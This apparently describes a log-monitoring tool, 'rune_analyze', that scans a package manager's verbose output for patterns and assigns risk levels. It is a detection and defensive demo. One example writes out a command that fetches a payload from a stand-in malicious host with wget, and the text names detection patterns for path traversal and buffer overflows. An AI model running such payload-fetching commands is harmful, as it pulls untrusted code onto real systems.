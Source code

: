 🧠 INTELLIGENT PATTERN RECOGNITION - LIVE ANALYSIS
═══════════════════════════════════════════════════════

🎯 WHAT HAPPENS: rune_analyze "zones in" on specific runepkg -vv patterns

📋 EXAMPLE 1 - Configuration Detection:
   runepkg -vv output: [ERROR] Control directory not configured
   ↓
   rune_analyze ZONES IN: ⚡ Pattern "Control directory not configured" detected
   rune_analyze PINPOINTS: 📋 Configuration system failure
   rune_analyze REACTS: 🔧 Suggests: Run runepkg configuration setup
   INTELLIGENCE LEVEL: ⚠️ WARNING (Risk Level 1)

📋 EXAMPLE 2 - Security Vulnerability Detection:
   runepkg -vv output: [DEBUG-VV] INTENTIONAL FLAW TESTING ===
   ↓
   rune_analyze ZONES IN: ⚡ Pattern "INTENTIONAL FLAW" detected
   rune_analyze PINPOINTS: 🛡️ Security test vulnerability active
   rune_analyze REACTS: 📊 Log security test pattern for analysis
   INTELLIGENCE LEVEL: ⚠️ WARNING (Risk Level 1)

📋 EXAMPLE 3 - Critical Security Alert:
   runepkg -vv output: [DEBUG-VV] Buffer overflow test completed
   ↓
   rune_analyze ZONES IN: ⚡ Pattern "Buffer overflow" detected
   rune_analyze PINPOINTS: 🚨 CRITICAL memory safety vulnerability
   rune_analyze REACTS: 🛑 IMMEDIATE ACTION - Flag as high risk
   INTELLIGENCE LEVEL: 🚨 CRITICAL (Risk Level 2)

📋 EXAMPLE 4 - Path Traversal Detection:
   runepkg -vv output: [DEBUG-VV] Path traversal: SUCCESS - sensitive file opened
   ↓
   rune_analyze ZONES IN: ⚡ Pattern "Path traversal" + "sensitive file" detected
   rune_analyze PINPOINTS: 🚨 CRITICAL directory traversal vulnerability
   rune_analyze REACTS: 🛑 STOP INSTALLATION - Security breach detected
   INTELLIGENCE LEVEL: 🚨 CRITICAL (Risk Level 2)

📋 EXAMPLE 5 - Memory Management Tracking:
   runepkg -vv output: [DEBUG-VV] Allocated block 42 at address 0x7fff...
   ↓
   rune_analyze ZONES IN: ⚡ Pattern "Allocated block" detected
   rune_analyze PINPOINTS: 💾 Memory allocation tracking
   rune_analyze REACTS: 📊 Track memory usage patterns
   INTELLIGENCE LEVEL: ℹ️ INFORMATIONAL (Risk Level 0)

📋 EXAMPLE 6 - Network Activity Detection:
   runepkg -vv output: wget https://malicious-site.com/payload
   ↓
   rune_analyze ZONES IN: ⚡ Pattern "wget" + "https://" detected
   rune_analyze PINPOINTS: 🌐 External network communication attempt
   rune_analyze REACTS: 🔍 Enable enhanced network monitoring
   INTELLIGENCE LEVEL: ⚠️ WARNING (Risk Level 1)

🎯 THE INTELLIGENCE WORKFLOW:
═══════════════════════════════

1. 👁️ REAL-TIME MONITORING: rune_analyze captures every line of runepkg -vv
2. 🔍 PATTERN SCANNING: Each line is checked against intelligence database
3. ⚡ INSTANT RECOGNITION: Patterns are identified and classified
4. 🧠 INTELLIGENT ANALYSIS: Meaning and risk level are determined
5. 🎯 ADAPTIVE RESPONSE: Appropriate action is taken based on risk
6. 📊 CONTINUOUS LEARNING: New patterns can be learned and added

🌟 THE NEXT-LEVEL INTELLIGENCE:
════════════════════════════════

❌ OLD WAY (Dumb monitoring):
   runepkg -vv → [lots of output] → hope user notices problems

✅ NEW WAY (Intelligent monitoring):
   runepkg -vv → rune_analyze zones in → pinpoints issues → reacts accordingly

🚀 RESULT: 
   • Automatic threat detection
   • Intelligent risk assessment  
   • Proactive security responses
   • Learning and adaptation
   • Context-aware analysis

This is NEXT-LEVEL program analysis - not just collecting output, 
but UNDERSTANDING and RESPONDING to what it means!
